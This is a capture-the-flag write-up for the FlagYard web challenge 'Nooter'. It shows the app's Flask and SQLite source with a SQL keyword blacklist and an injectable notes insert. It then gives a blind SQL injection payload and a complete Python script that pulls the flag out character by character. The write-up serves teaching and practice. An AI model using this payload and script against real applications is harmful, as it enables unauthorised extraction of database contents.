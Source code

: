 ```yaml
---
title: FlagYard - Web - Nooter
date: '2016-03-08'
tags: ['SQL injection', 'Blind SQL', 'WEB', 'Expoitation']
draft: false
summary: Retrieving data from SQLite3 database by exploiting Blind SQl injection in Web Application
---
```


After starting the CTF instance, we are greeted with a simple registration page. At first glance, this seems like a basic “notes” website where users can register, log in, and input their personal notes. However, as CTF participants, we know things are never that simple, and there’s likely a hidden vulnerability for us to exploit.

The goal of this challenge is to retrieve the flag. To achieve this, we must analyze the provided source code and attempt to exploit any security loopholes.

```python
from flask import Flask, render_template, request, redirect, url_for, session
import sqlite3
from sqlite3 import Error
import string
import random
import re

class Database:
    def __init__(self, db):
        self.db = db
        try:
            self.conn = sqlite3.connect(self.db, check_same_thread=False)
        except:
            self.conn = None

    def gen_random(self) -> str:
        letters = string.ascii_lowercase
        result_str = ''.join(random.choice(letters) for i in range(15))
        return result_str

    def execute_statement(self, create_table_sql) -> str:
        try:
            c = self.conn.cursor()
            return c.execute(create_table_sql)
        except Error as e:
            return e

    def create_tables(self) -> str:
        create_user_table = '''
            CREATE TABLE IF NOT EXISTS user(
                id integer PRIMARY KEY,
                username text NOT NULL,
                password text NOT NULL
            );
        '''
        create_user_note = '''
            CREATE TABLE IF NOT EXISTS notes(
                username text NOT NULL,
                notes text NOT NULL
            );
        '''
        create_flag_table = '''
            CREATE TABLE IF NOT EXISTS flag(
                flag text NOT NULL
            );
        '''
        if self.conn is not None:
            self.execute_statement(create_user_table)
            self.execute_statement(create_flag_table)
            self.execute_statement(create_user_note)
            return "Tables have been created"
        else:
            return "Something went wrong"

    def insert(self, statement, *args) -> bool:
        try:
            sql = statement
            curs = self.conn.cursor()
            curs.execute(sql, (args))
            self.conn.commit()
            return True
        except:
            return False   

    def select(self, statement, *args) -> list:
        curs = self.conn.cursor()
        curs.execute(statement, (args))
        rows = curs.fetchall()
        result = []
        for row in rows:
            result.append(row)
        return result
```

The application uses an SQLite database for storing users, notes, and the hidden flag. The relevant tables are:

- `user`: Stores the usernames and passwords of registered users.
- `notes`: Stores notes submitted by logged-in users.
- `flag`: Stores the flag we're trying to extract.

The application employs a blacklist of certain SQL keywords (e.g., `exec`, `union`, `join`) to prevent common SQL injection attacks:

```python
def blacklist(string):
    string = string.lower()
    blocked_words = ['exec', 'load', 'blob', 'glob', 'union', 'join', 'like', 'match', 'regexp', 'in', 'limit', 'order', 'hex', 'where']
    for word in blocked_words:
        if word in string:
            return True
    return False
```

### SQL Injection in Notes

```python
query = db.insert("INSERT INTO notes(username, notes) VALUES(?,'%s')" % note, session['username'])
```

### Exploiting the SQL Injection Vulnerability

Testing the application locally, I modified the code to print out the SQL queries being executed:

```python
def insert(self, statement, *args) -> bool:
    try:
        sql = statement
        print(f"Executing SQL Query: {sql}")
        curs = self.conn.cursor()
        curs.execute(sql, (args))
        self.conn.commit()
        return True
    except Exception as e:
        print(f"Error executing query: {e}")
        return False
```

### Blind SQL Injection for Flag Extraction

To extract the flag, I used blind SQL injection:

```sql
' OR SUBSTR((SELECT flag FROM flag), 1, 1) = 'F'
```

### Python Script to Automate Flag Extraction

```python
import requests
import string

base_url = "http://your-instance-url.com/"
register_url = base_url + "register"
login_url = base_url + "login"
add_note_url = base_url

charset = string.digits + string.ascii_letters + "{}_"
flag = ""
position = 1

username = "your_username"  
password = "your_password" 

session = requests.Session()

def login():
    login_data = {"username": username, "password": password}
    response = session.post(login_url, data=login_data)
    if "Welcome" in response.text:
        print("[+] Login successful!")
    else:
        print("[-] Login failed.")
        exit()

def test_char_for_position(char, position):
    payload = f"' OR SUBSTR((SELECT flag FROM flag), {position}, 1) = '{char}"
    data = {"note": payload}
    response = session.post(add_note_url, data=data)

    reflected_values = [val for val in response.text if val in ('0', '1')]

    if reflected_values and reflected_values[-1] == '1':
        print(f"[+] Correct character at position {position}: '{char}'")
        return True
    return False

login()

while True:
    found_char = False
    for char in charset:
        if test_char_for_position(char, position):
            flag += char
            print(f"[+] Flag so far: {flag}")
            position += 1
            found_char = True
            break
    
    if not found_char:
        print("[*] Flag extraction complete!")
        break

print(f"[+] Extracted flag: {flag}")
```

The script maintains a session throughout to avoid logging in for every request, dynamically generates SQL injection payloads for each character and position, and extracts characters one by one until the entire flag is retrieved.

Flag extracted: ``FlagY{**********************************}``
